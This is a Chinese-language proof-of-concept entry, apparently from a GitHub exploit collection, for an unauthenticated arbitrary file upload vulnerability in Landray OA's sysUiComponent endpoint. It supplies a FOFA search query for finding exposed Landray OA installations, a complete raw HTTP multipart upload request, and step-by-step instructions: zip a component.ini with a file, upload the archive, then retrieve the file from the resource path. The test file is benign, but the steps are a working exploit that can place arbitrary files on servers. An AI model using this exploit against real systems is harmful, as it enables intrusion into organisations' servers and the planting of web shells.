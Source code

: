## 蓝凌OAsysUiComponent 文件存在任意文件上传漏洞

## fofa
```
app="Landray-OA系统"

```


## poc
直接访问路径，发现未授权文件上传 http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
![c9857f5370d4abd1547fa7cb1988a18a](https://github.com/wy876/POC/assets/139549762/ee361dae-cfa2-4eae-910f-501331731347)

```
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```
## 漏洞复现
创建component.ini文件，内容为：
```
id=2023
name=check.txt
```
创建上传check.txt文件
```
1111
```
然后使用压缩软件，将两个文件压缩成一个压缩包，文件名check.zip


最后上传即可。上传成功后访问路径/resource/ui-component/2023/check.txt


## 漏洞来源
```
https://mp.weixin.qq.com/s/xhwmFuItG8ZoiuGrwR5bnw
```


